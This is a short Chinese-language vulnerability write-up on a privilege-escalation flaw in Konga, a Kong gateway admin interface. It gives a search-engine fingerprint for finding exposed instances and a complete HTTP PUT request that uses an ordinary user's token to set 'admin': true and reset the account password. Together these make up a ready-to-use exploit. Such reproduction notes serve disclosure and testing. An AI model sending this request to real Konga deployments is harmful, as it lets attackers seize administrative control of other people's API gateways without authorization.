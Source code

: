 # 

# Konga 普通用户越权获取管理员权限漏洞

## 漏洞描述

Konga 普通用户通过发送特殊的请求可越权获取管理员权限

## 漏洞影响

```
Konga
```

## 网络测绘

```
"konga"
```

## 漏洞复现

登录页面



![image-20220210184626593](./images/202202101846658.png)

创建非管理员用户后登录并获取token



![](./images/202202101847245.png)



发送请求包, 将token修改为刚刚获取的



```plain
PUT /api/user/7 HTTP/1.1
Host: 127.0.0.1:1337
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=utf-8
Content-Length: 241

{
  "admin": true,
  "passports": {
    "password": "1234abcd",
    "protocol": "local"
  },
  "password_confirmation": "1234abcd",
  "token": "non-administrator user token"
}
```



![](./images/202202101847809.png)



成功转为管理员用户



![](./images/202202101847129.png)
